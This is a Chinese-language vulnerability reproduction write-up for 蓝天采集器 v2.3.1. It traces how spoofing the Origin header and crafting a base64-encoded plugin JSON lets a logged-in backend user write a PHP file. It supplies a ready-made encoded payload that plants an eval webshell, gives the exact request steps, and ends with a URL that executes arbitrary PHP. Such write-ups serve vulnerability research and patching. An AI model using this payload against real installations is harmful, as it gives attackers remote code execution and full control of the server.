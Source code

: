 蓝天采集器 v2.3.1 后台getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

蓝天采集器 v2.3.1

三、复现过程
------------

### 漏洞分析

漏洞出发点位于/SkycaijiApp/admin/controller/Store.php文件中的installPluginAction函数，如图

![1.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId25.png)

首先代码会执行\$this-\>\_checkOrigin();函数，我们跟进一下

![2.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId26.png)

该函数是用来判断请求的来源是否在白名单中，注意到这里获取请求来源使用了\$\_SERVER\[\'HTTP\_ORIGIN\'\]

这里我们只要在请求时加上一个Origin请求头，并将其值改为白名单中的值就可以了，我们看一下白名单的值

![3.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId27.png)

回到
installPluginAction函数，接下来函数将传入的plugin参数先进行base64解密在进行json解码，接着调用\_installPlugin函数，跟进该函数，如图

![4.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId28.png)

这里函数先进行了一系列数据判空操作，接着下来如果满足\$plugin\[\'type\'\]==\'release\'这个条件将会调用addCms函数，我们继续跟进addCms函数，函数位于文件/SkycaijiApp/admin/model/ReleaseApp.php
中，如图

![5.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId29.png)

![6.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId30.png)

首先函数会判断\$cms\[\'app\'\]是否为空，这里无需理会，在利用时只要构造一下就好，接着代码做了三个正则校验，第一个正则来判断\$cms\[\'app\'\]是否符合其命名规范，我们可以使其值为AaAaAa来绕过校验，第二个正则用来判断函数传入的\$code是否存在命名空间，这里我们可以参考一下位于/plugin/release/cms/BaseCms.php文件中的写法，如图

![7.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId31.png)

接着是第三个正则，该处是为了判断类名是否存在，要注意的是类名需要与我们设置的\$cms\[\'app\'\]一样，这里我们可以这么写

class AaAaAa{

过了三个正则后我们会来到write\_dir\_file函数，跟进一下该函数，如图

![8.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId32.png)

该函数用来写文件，那么到目前为止我们就可以在网站中写入一个php文件，但是该文件要存在规定好的命名空间和类，为了写入我们可以利用的一句话，我们可以利用注释符将命名空间和类注视掉，如图

![9.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId33.png)

接下来就可以构造符合条件得exp了

首先将代码base64编码，然后依据上述分析代码中的条件构造符合的json格式的字符串

    {"app":"AaAaAa","name":"test1","type":"release","module":"test2","code":"PD9waHAKLyoKbmFtZXNwYWNlIHBsdWdpblxyZWxlYXNlXGNtczsKCmNsYXNzIEFhQWFBYXsKCXB1YmxpYyAkcmVsZWFzZTsKfSovCkBldmFsKCRfR0VUW2FdKTsKPz4="}

接着把改串json字符串base64编码一下就可以post过去进行利用了。

### 漏洞复现

漏洞点位于后台安装插件功能处，首先登陆后台

1.访问

    http://www.0-sec.org/index.php?s=/Admin/Store/installPlugin

2.添加http头Origin:

    http://www.0-sec.org

3.post输入

    plugin=eyJhcHAiOiJBYUFhQWEiLCJuYW1lIjoidGVzdDEiLCJ0eXBlIjoicmVsZWFzZSIsIm1vZHVsZSI6InRlc3QyIiwiY29kZSI6IlBEOXdhSEFLTHlvS2JtRnRaWE53WVdObElIQnNkV2RwYmx4eVpXeGxZWE5sWEdOdGN6c0tDbU5zWVhOeklFRmhRV0ZCWVhzS0NYQjFZbXhwWXlBa2NtVnNaV0Z6WlRzS2ZTb3ZDa0JsZG1Gc0tDUmZSMFZVVzJGZEtUc0tQejQ9In0=

如图

![10.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId35.png)

接着会在\\plugin\\release\\cms\\下生成AaAaAa.php的一句话后门，如图

![11.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId36.png)

然后在后台点击发布插件选项卡，接着点击开发按钮，如图

![12.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId37.png)

这时会引用我们带有一句话木马的文件，在url上添加a参数即可执行任意php代码，进而getshell，以执行phpinfo为例，访问

    http://www.0-sec.org/index.php?s=/admin/Develop/releaseCms&app=AaAaAa&a=phpinfo();

如图

![13.png](./.resource/蓝天采集器v2.3.1后台getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7873
